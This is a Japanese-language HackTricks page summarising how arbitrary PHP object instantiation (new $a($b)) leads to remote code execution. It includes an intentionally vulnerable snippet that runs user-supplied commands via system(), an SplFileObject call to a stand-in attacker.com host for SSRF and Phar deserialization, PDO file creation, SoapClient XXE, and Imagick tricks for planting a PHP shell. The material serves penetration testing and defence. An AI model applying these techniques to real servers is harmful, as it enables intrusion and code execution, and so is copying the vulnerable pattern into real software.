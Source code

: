 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

これは基本的に[https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)の要約です。

## はじめに

`new $_GET["a"]($_GET["a"])`のような新しい任意のオブジェクトの作成は、リモートコード実行（RCE）につながる可能性があります。これは[**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)で詳述されています。この文書では、RCEを達成するためのさまざまな戦略を強調しています。

## カスタムクラスまたはオートローディングによるRCE

`new $a($b)`という構文は、**`$a`**がクラス名を表し、**`$b`**がコンストラクタに渡される最初の引数であるオブジェクトをインスタンス化するために使用されます。これらの変数は、GET/POSTのようなユーザー入力から取得されることがあり、文字列や配列である場合や、JSONから取得される場合には他の型として表示されることがあります。

以下のコードスニペットを考えてみてください：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
この場合、`$a`を`App`または`App2`に設定し、`$b`をシステムコマンド（例：`uname -a`）に設定すると、そのコマンドが実行されます。

**オートローディング関数**は、そのようなクラスが直接アクセスできない場合に悪用される可能性があります。これらの関数は、必要に応じてファイルからクラスを自動的にロードし、`spl_autoload_register`または`__autoload`を使用して定義されます：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
オートローディングの動作はPHPのバージョンによって異なり、異なるRCEの可能性を提供します。

## 組み込みクラスによるRCE

カスタムクラスやオートローダーがない場合、**組み込みPHPクラス**がRCEに十分である可能性があります。これらのクラスの数は、PHPのバージョンや拡張機能に基づいて100から200の間です。`get_declared_classes()`を使用してリストできます。

興味のあるコンストラクタは、以下の例とリンク[https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)に示すように、リフレクションAPIを通じて特定できます。

**特定のメソッドによるRCEには以下が含まれます：**

### **SSRF + Pharデシリアライズ**

`SplFileObject`クラスは、そのコンストラクタを通じてSSRFを可能にし、任意のURLへの接続を許可します：
```php
new SplFileObject('http://attacker.com/');
```
SSRFは、Pharプロトコルを使用してPHPの8.0以前のバージョンでデシリアライズ攻撃を引き起こす可能性があります。

### **PDOの悪用**

PDOクラスのコンストラクタは、DSN文字列を介してデータベースへの接続を許可し、ファイルの作成やその他のインタラクションを可能にします：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHPのバージョン5.3.22および5.4.12までが、`SoapClient`および`SimpleXMLElement`コンストラクタを通じてXXE攻撃に対して脆弱であることが確認されました。これはlibxml2のバージョンに依存します。

## RCE via Imagick Extension

**プロジェクトの依存関係**の分析において、**Imagick**が新しいオブジェクトをインスタンス化することで**コマンド実行**に利用できることが発見されました。これは脆弱性を悪用する機会を提供します。

### VID parser

ファイルシステム内の任意の指定されたパスにコンテンツを書き込む能力を持つVIDパーサーが特定されました。これにより、ウェブアクセス可能なディレクトリにPHPシェルを配置し、リモートコード実行（RCE）を達成する可能性があります。

#### VID Parser + File Upload

PHPはアップロードされたファイルを一時的に`/tmp/phpXXXXXX`に保存することが知られています。ImagickのVIDパーサーは、**msl**プロトコルを利用してファイルパス内のワイルドカードを処理でき、一時ファイルを選択した場所に転送することを容易にします。この方法は、ファイルシステム内での任意のファイル書き込みを達成するための追加のアプローチを提供します。

### PHP Crash + Brute Force

[**元の解説**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)に記載されている方法では、削除前にサーバーのクラッシュを引き起こすファイルをアップロードすることが含まれています。一時ファイルの名前をブルートフォースすることで、Imagickが任意のPHPコードを実行することが可能になります。ただし、この技術は古いバージョンのImageMagickでのみ効果的であることが判明しました。

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
